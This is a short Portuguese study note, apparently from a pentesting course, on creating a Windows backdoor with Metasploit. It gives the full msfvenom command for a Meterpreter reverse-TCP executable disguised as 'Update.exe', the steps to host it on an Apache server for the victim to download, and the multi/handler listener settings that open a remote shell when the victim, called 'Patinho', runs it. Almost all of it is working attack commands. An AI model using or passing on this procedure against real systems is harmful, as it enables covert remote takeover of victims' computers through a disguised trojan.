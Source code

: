 #DIO #CYBERSECURITY #PENTEST

* Primeiramente iniciar o console do metasploit > ==**msfconsole**==
* Dentro do **msfconsole** criar o **BACKDOOR** com o IP do atacante e porta (==**-p-a-f-o**==):
	* ==**msfvenom**== **-p** windows/meterpreter/reverse_tcp **-a** x86 platform windows **-f** exe LHOST=192.168.15.4 LPORT=4444 **-o** Update.exe
* Iniciar o servidor apache para tranferir o backdoor: 
	* service apache2 start
	* sudo cp arquivo_backdoor.exe /var/www/html
* Na máquina vítima acessar o IP do atacante/arquivo_backdoor.exe para baixar o programa.

Para ==escutar== a execução do **backdoor**:
* use **multi/handler**  (módulo?)
* **set payload** windows/meterpreter/reverse_tcp
* **set LHOST** 192.168.15.4 (Do atacante)
* **set LPORT** 4444
* **run**

Quando o *Patinho* abrir o executável, a conexão será estabelecida.

